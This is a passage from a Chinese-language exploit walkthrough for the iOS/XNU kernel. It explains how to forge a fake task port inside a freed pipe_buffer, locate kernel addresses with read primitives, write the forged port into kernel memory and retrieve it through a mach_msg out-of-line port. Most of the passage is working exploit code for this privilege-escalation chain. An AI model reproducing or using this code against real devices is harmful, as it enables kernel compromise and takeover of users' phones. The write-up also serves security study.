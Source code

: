 ```c
    uint64_t ip_receiver;
    uint64_t ip_kobject;
    uint64_t ip_nsrequest;
    uint64_t ip_pdrequest;
    uint64_t ip_requests;
    uint64_t ip_premsg;
    uint64_t ip_context;
    uint32_t ip_flags;
    uint32_t ip_mscount;
    uint32_t ip_srights;
    uint32_t ip_sorights;
} kport_t;
```

我们要做的，是将这个`Fake Task Port`的地址，替换到刚才被释放的内核缓冲区`pipe_buffer`里，这样整个内核缓冲区的布局就是：第一个`8`字节是我们`Fake Task Port`的地址，后面都是正常Port的地址

先获取`Fake Task Port`的地址`port_pipe_buffer`，也就是`port_fds`对应的内核缓冲区

```c
uint64_t port_fg_data = 0;
uint64_t port_pipe_buffer = 0;

if (SMAP) {
    fproc = rk64_check(fd_ofiles + port_fds[0] * 8);
    f_fglob = rk64_check(fproc + koffset(KSTRUCT_OFFSET_FILEPROC_F_FGLOB));
    port_fg_data = rk64_check(f_fglob + koffset(KSTRUCT_OFFSET_FILEGLOB_FG_DATA));
    port_pipe_buffer = rk64_check(port_fg_data + koffset(KSTRUCT_OFFSET_PIPE_BUFFER));
    printf("[*] second pipe buffer: 0x%llx\n", port_pipe_buffer);
}
```

`fakeport->ip_kobject`指向的是结构体`Task`，这个结构体还没有进行初始化，到这里完成`Fake Task Port`的内存数据构造

```c
fakeport->ip_kobject = port_pipe_buffer + sizeof(kport_t);
```

将完成构造的`Fake Task Port`数据刷到内核缓冲区里

```c
write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
```

这是我们释放掉的`pipe_buffer`，将第一个`8`字节替换为`port_pipe_buffer`的地址，那么逻辑上第一个Port内核态地址指向的内核内存空间我们就可以通过`port_fds`来进行控制了

```c
write(fds[1], &port_pipe_buffer, 8);
```

获取`Fake Task Port`的用户态句柄，从`p`中读出我们发送的OOL数据，第一个元素就是我们的`Fake Task Port`，如同用户态传到内核态会调用`CAST_MACH_NAME_TO_PORT`将用户态句柄转换为内核态地址一样，内核态传到用户态会调用`CAST_MACH_PORT_TO_NAME`将内核态地址转换为用户态句柄

```c
struct ool_msg *msg = malloc(0x1000);
ret = mach_msg(&msg->hdr, MACH_RCV_MSG, 0, 0x1000, p, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
mach_port_t *received_ports = msg->ool_ports.address;
mach_port_t our_port = received_ports[0]; // fake port!
free(msg);
```
